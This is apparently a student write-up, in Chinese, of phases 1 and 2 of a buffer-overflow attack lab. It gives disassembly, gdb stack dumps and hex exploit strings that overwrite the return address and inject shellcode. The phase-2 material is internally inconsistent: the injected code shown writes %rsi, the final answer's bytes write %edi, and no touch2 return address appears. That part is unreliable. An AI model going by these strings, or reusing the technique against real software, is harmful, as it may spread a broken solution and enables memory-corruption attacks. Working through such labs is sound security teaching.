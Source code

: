 
## 110
### phase1

```c
0000000000401849 <getbuf>:
  401849:	48 83 ec 38          	sub    $0x38,%rsp
  40184d:	48 89 e7             	mov    %rsp,%rdi
  401850:	e8 94 02 00 00       	callq  401ae9 <Gets>
  401855:	b8 01 00 00 00       	mov    $0x1,%eax
  40185a:	48 83 c4 38          	add    $0x38,%rsp
  40185e:	c3                   	retq   
```
注意到栈空间为 0x38 字节，填充56个字节垃圾信息后跟上touch1()函数首地址：000000000040185f

**答案**：
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
5f 18 40 00 00 00 00 00
```


### phase2

注入代码：
```txt
inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c6 09 15 be 10 	mov    $0x10be1509,%rsi
   7:	c3                   	retq         
```

调试得到栈顶地址(注入代码地址)：0x5565a558
```c
(gdb) x/80xb $rsp
0x5565a558:     0x48    0xc7    0xc6    0x09    0x15    0xbe    0x10    0xc3
0x5565a560:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565a568:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565a570:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565a578:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565a580:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565a588:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565a590:     0x8d    0x18    0x40    0x00    0x00    0x00    0x00    0x00
0x5565a598:     0x8d    0x18    0x40    0x00    0x00    0x00    0x00    0x00
0x5565a5a0:     0x00    0x20    0x40    0x00    0x00    0x00    0x00    0x00
```
**答案：**
```txt
bf 09 15 be 10 c3 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
58 a5 65 55 00 00 00 00
```